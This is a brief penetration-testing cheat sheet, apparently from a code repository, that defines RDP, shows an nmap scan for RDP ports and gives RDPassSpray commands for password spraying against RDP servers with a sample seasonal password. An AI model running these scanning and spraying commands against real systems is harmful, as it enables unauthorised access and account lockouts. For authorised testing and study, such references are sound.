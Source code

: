 ## What is RDP
RDP stands for Remote Desktop Protocol, which is a proprietary protocol developed by Microsoft that allows users to access and control a computer remotely over a network connection. With RDP, users can connect to a remote computer and interact with it as if they were sitting in front of it, using their own keyboard, mouse, and monitor.

## Find RDP ports
- Nmap
```Terminal
nmap -sV -sC IP -p3026,3389
```

- Possible to find RDP on an other port

## Attack
- Brute Force (https://github.com/xFreed0m/RDPassSpray)
```Terminal
python3 RDPassSpray.py -h

python3 RDPassSpray.py -U USERNAMES.txt -p Spring2021! -t IP:PORT

python3 RDPassSpray.py -U USERNAMES.txt -p Spring2021! -d DOMAIN -T RDP_servers.txt
```

- -U                   ---> Username List
- -p                    ---> Single Password
- -d                    ---> Windows Domain
- -t                     ---> Targets (List of IP's)